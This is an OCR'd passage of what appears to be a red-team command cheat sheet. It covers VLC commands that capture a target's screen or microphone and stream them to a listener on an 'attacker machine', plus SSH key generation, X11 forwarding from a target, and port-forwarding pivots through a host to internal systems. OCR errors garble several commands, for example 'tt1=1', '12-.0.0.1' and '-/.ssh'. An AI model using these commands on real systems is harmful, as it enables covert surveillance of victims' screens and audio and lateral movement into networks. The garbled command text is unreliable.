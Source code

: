 
CAPTURE AND STREAM OVER BROADCAST

# Start a listener on attacker machine for multicast vlc udp://@ multicastaddr :1234

# Broadcast stream to a multicast address
vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,samplerate=44100}:udp{dst= multicastaddr :1234} :no-sout-rtp-sap :no-sout-standard-sap :ttl=1 :sout-keep


CAPTURE AND RECORD YOUR SCREEN TO A FILE

vlc screen:// :screen-fps=25 :screen-caching=100
:sout=#transcode{vcodec=h264,vb=0,scale=0,acodec=mp4a,ab=128,channels=2,sam plerate=44100}:file{dst=C:\\Program Files (x86)\\VideoLAN\\VLC\\test.mp4} :no-sout-rtp-sap :no-sout-standard-sap :tt1=1 :sout-keep


CAPTURE AND STREAM THE MICROPHONE OVER UDP

vlc dshow:// :dshow-vdev="None" :dshow-adev="Your Audio Device"


SSH

/etc/ssh/ssh_known_hosts        #System-wide known hosts
-/.ssh/known_hosts              #Hosts user has logged into
sshd-generate                   #Generate SSH keys (DSA/RSA)
ssh keygen -t dsa -f /etc/ssh/ssh_host_dsa_key	#Generate SSH DSA keys
ssh keygen -t rsa -f /etc/ssh/ssh_host_rsa_key	#Generate SSH RSA keys
* If already in ssh session, press SHIFT -C to configure tunnel
* Port forwarding must be allowed on target
* /etc/ssh`/sshd_config - AllowTcpForwarding YES


TO ESTABLISH AN SSH CONNECTION ON DIFFERENT PORT

ssh root@2.2.2.2 -p 8222


SETUP X11 FORWARDING FROM TARGET, FROM ATTACK BOX RUN

xhost+
vi -/.ssh/config - Ensure 'ForwardX11 yes' 
ssh -X root@2.2.2.2


REMOTE PORT FORWARD ON 8080, FORWARD TO ATTACKER ON 443

ssh -R8080:12-.0.0.1:443 root@2.2.2.2.


LOCAL PORT FORWARD ON PORT 8080 ON ATTACK BOX AND FORWARDS THROUGH SSH TUNNEL TO PORT 3300 ON INTERNAL TARGET 3.3.3.3

ssh -L8080:3.3.3.3:443 root@2.2.2.2
